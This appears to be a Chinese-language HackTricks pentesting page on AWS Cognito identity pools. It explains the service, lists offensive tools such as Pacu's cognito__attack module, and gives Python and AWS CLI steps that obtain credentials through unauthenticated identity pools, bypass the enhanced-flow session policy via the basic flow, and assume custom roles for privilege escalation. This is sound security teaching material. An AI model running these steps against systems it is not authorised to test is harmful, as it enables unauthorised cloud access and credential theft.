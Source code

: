 # Cognito身份池

<details>

<summary><strong>从零开始学习AWS黑客技术，成为专家</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE（HackTricks AWS红队专家）</strong></a><strong>！</strong></summary>

支持HackTricks的其他方式：

- 如果您想看到您的**公司在HackTricks中做广告**或**下载PDF格式的HackTricks**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)!
- 获取[**官方PEASS & HackTricks周边产品**](https://peass.creator-spring.com)
- 探索[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们的独家[NFTs收藏品](https://opensea.io/collection/the-peass-family)
- **加入** 💬 [**Discord群**](https://discord.gg/hRep4RUj7f) 或 [**电报群**](https://t.me/peass) 或 **关注**我们的**Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**。**
- 通过向[**HackTricks**](https://github.com/carlospolop/hacktricks)和[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来分享您的黑客技巧。

</details>

## 基本信息

身份池通过使您的用户**获取临时凭证**发挥关键作用。这些凭证对于访问各种AWS服务至关重要，包括但不限于Amazon S3和DynamoDB。身份池的一个显著特点是支持匿名访客用户和一系列身份提供者进行用户认证。支持的身份提供者包括：

- Amazon Cognito用户池
- 社交登录选项，如Facebook、Google、使用Amazon登录和使用Apple登录
- 符合OpenID Connect（OIDC）标准的提供者
- SAML（安全断言标记语言）身份提供者
- 开发人员认证身份
```python
# Sample code to demonstrate how to integrate an identity provider with an identity pool can be structured as follows:
import boto3

# Initialize the Amazon Cognito Identity client
client = boto3.client('cognito-identity')

# Assume you have already created an identity pool and obtained the IdentityPoolId
identity_pool_id = 'your-identity-pool-id'

# Add an identity provider to the identity pool
response = client.set_identity_pool_roles(
IdentityPoolId=identity_pool_id,
Roles={
'authenticated': 'arn:aws:iam::AWS_ACCOUNT_ID:role/AuthenticatedRole',
'unauthenticated': 'arn:aws:iam::AWS_ACCOUNT_ID:role/UnauthenticatedRole',
}
)

# Print the response from AWS
print(response)
```
### Cognito Sync

要生成身份池会话，首先需要**生成身份 ID**。这个身份 ID 是**用户会话的标识**。这些标识最多可以有 20 个数据集，每个数据集可以存储最多 1MB 的键值对。

这对于**保留用户信息**（始终使用相同的身份 ID 的用户）非常有用。

此外，服务**cognito-sync** 是允许**管理和同步这些信息**（在数据集中，通过流发送信息和 SNS 消息等）的服务。

### 用于渗透测试的工具

* [Pacu](https://github.com/RhinoSecurityLabs/pacu)，AWS 利用框架，现在包括“cognito\_\_enum”和“cognito\_\_attack”模块，自动枚举帐户中所有 Cognito 资产并标记弱配置、用于访问控制的用户属性等，并自动创建用户（包括 MFA 支持）和基于可修改的自定义属性、可用的身份池凭据、ID 令牌中可假定的角色等进行特权升级。

有关模块功能的描述，请参阅[博客文章](https://rhinosecuritylabs.com/aws/attacking-aws-cognito-with-pacu-p2)的第 2 部分。有关安装说明，请参阅主要[Pacu](https://github.com/RhinoSecurityLabs/pacu)页面。

#### 用法

示例 cognito\_\_attack 用法，尝试创建用户以及针对给定身份池和用户池客户端的所有权限提升向量：
```bash
Pacu (new:test) > run cognito__attack --username randomuser --email XX+sdfs2@gmail.com --identity_pools
us-east-2:a06XXXXX-c9XX-4aXX-9a33-9ceXXXXXXXXX --user_pool_clients
59f6tuhfXXXXXXXXXXXXXXXXXX@us-east-2_0aXXXXXXX
```
以下是使用cognito\_\_enum的示例，用于收集当前AWS账户中可见的所有用户池、用户池客户端、身份池、用户等信息：
```bash
Pacu (new:test) > run cognito__enum
```
* [Cognito Scanner](https://github.com/padok-team/cognito-scanner) 是一个用Python编写的CLI工具，实现了对Cognito的不同攻击，包括未经授权的账户创建和身份池升级。

#### 安装
```bash
$ pip install cognito-scanner
```
#### 用法
```bash
$ cognito-scanner --help
```
更多信息请查看https://github.com/padok-team/cognito-scanner

## 访问 IAM 角色

### 未经身份验证

在 Cognito 应用程序中，作为未经身份验证的用户，攻击者唯一需要知道的是**身份池 ID**，而且这个**ID必须在 Web/移动应用程序中硬编码**以便应用程序使用。一个 ID 看起来像这样：`eu-west-1:098e5341-8364-038d-16de-1865e435da3b`（无法通过暴力破解获得）。

{% hint style="success" %}
**通过默认方式创建的 IAM Cognito 未经身份验证角色称为** `Cognito_<Identity Pool name>Unauth_Role`
{% endhint %}

如果你发现一个硬编码的身份池 ID 并且允许未经身份验证的用户，你可以通过以下方式获取 AWS 凭证：
```python
import requests

region = "us-east-1"
id_pool_id = 'eu-west-1:098e5341-8364-038d-16de-1865e435da3b'
url = f'https://cognito-identity.{region}.amazonaws.com/'
headers = {"X-Amz-Target": "AWSCognitoIdentityService.GetId", "Content-Type": "application/x-amz-json-1.1"}
params = {'IdentityPoolId': id_pool_id}

r = requests.post(url, json=params, headers=headers)
json_resp = r.json()

if not "IdentityId" in json_resp:
print(f"Not valid id: {id_pool_id}")
exit

IdentityId = r.json()["IdentityId"]

params = {'IdentityId': IdentityId}

headers["X-Amz-Target"] = "AWSCognitoIdentityService.GetCredentialsForIdentity"
r = requests.post(url, json=params, headers=headers)

print(r.json())
```
或者您可以使用以下**aws cli命令**：
```bash
aws cognito-identity get-id --identity-pool-id <identity_pool_id> --no-sign
aws cognito-identity get-credentials-for-identity --identity-id <identity_id> --no-sign
```
{% hint style="warning" %}
请注意，默认情况下，未经身份验证的Cognito用户**无法拥有任何权限，即使通过策略分配了权限**。请查看以下部分。
{% endhint %}

### 增强 vs 基本身份验证流程

前一部分遵循了**默认的增强身份验证流程**。该流程为生成的IAM角色会话设置了**限制性**[**会话策略**](../../aws-basic-information/#session-policies)。该策略将仅允许会话[**使用此列表中的服务**](https://docs.aws.amazon.com/cognito/latest/developerguide/iam-roles.html#access-policies-scope-down-services)（即使角色具有对其他服务的访问权限）。

然而，如果**身份池启用了"基本（经典）流程"**，则可以绕过此限制，用户将能够使用该流程获取会话，该会话**不会受到限制性的会话策略**。

{% code overflow="wrap" %}
```bash
# Get auth ID
aws cognito-identity get-id --identity-pool-id <identity_pool_id> --no-sign

# Get login token
aws cognito-identity get-open-id-token --identity-id <identity_id> --no-sign

# Use login token to get IAM session creds
## If you don't know the role_arn use the previous enhanced flow to get it
aws sts assume-role-with-web-identity --role-arn "arn:aws:iam::<acc_id>:role/<role_name>" --role-session-name sessionname --web-identity-token <token> --no-sign
```
{% endcode %}

{% hint style="warning" %}
如果您收到此**错误**，那是因为**基本流程未启用（默认）**

`An error occurred (InvalidParameterException) when calling the GetOpenIdToken operation: Basic (classic) flow is not enabled, please use enhanced flow.`
{% endhint %}

拥有一组IAM凭据后，您应该检查[您拥有的访问权限](../../#whoami)并尝试[提升特权](../../aws-privilege-escalation/)。

### 已认证

{% hint style="info" %}
请记住**已认证用户**可能会被授予**不同的权限**，因此如果您可以**在应用内注册**，请尝试这样做并获取新凭据。
{% endhint %}

对于**已认证用户访问身份池**，可能还有**角色**可用。

为此，您可能需要访问**身份提供者**。如果是**Cognito用户池**，也许您可以滥用默认行为并**自己创建新用户**。

{% hint style="success" %}
通过默认方式创建的**IAM Cognito已认证角色**称为`Cognito_<Identity Pool name>Auth_Role`
{% endhint %}

无论如何，**以下示例**假定您已经登录到用于访问身份池的**Cognito用户池**中（不要忘记还可以配置其他类型的身份提供者）。

<pre class="language-bash"><code class="lang-bash">aws cognito-identity get-id \
--identity-pool-id &#x3C;identity_pool_id> \
--logins cognito-idp.&#x3C;region>.amazonaws.com/&#x3C;YOUR_USER_POOL_ID>=&#x3C;ID_TOKEN>

# 从上一个命令的响应中获取identity_id
aws cognito-identity get-credentials-for-identity \
--identity-id &#x3C;identity_id> \
--logins cognito-idp.&#x3C;region>.amazonaws.com/&#x3C;YOUR_USER_POOL_ID>=&#x3C;ID_TOKEN>


# 在IdToken中，您可以找到用户由于用户池组而具有的角色
# 使用--custom-role-arn获取特定角色的凭据
aws cognito-identity get-credentials-for-identity \
--identity-id &#x3C;identity_id> \
<strong>    --custom-role-arn &#x3C;role_arn> \
</strong>    --logins cognito-idp.&#x3C;region>.amazonaws.com/&#x3C;YOUR_USER_POOL_ID>=&#x3C;ID_TOKEN>
</code></pre>

{% hint style="warning" %}
**可能会根据用户登录的身份提供者或甚至仅根据用户**（使用声明）**配置不同的IAM角色**。因此，如果您可以通过相同或不同的提供者访问不同的用户，登录并访问所有这些用户的IAM角色可能是**值得的**。
{% endhint %}

<details>

<summary><strong>从零开始学习AWS黑客技术，成为专家</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE（HackTricks AWS Red Team Expert）</strong></a><strong>！</strong></summary>

支持HackTricks的其他方式：

* 如果您想看到您的**公司在HackTricks中做广告**或**下载PDF格式的HackTricks**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)!
* 获取[**官方PEASS & HackTricks周边产品**](https://peass.creator-spring.com)
* 发现[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们独家的[NFTs](https://opensea.io/collection/the-peass-family)收藏品
* **加入** 💬 [**Discord群**](https://discord.gg/hRep4RUj7f) 或 [**电报群**](https://t.me/peass) 或在**Twitter**上关注我们 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**。**
* 通过向[**HackTricks**](https://github.com/carlospolop/hacktricks)和[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来分享您的黑客技巧。

</details>
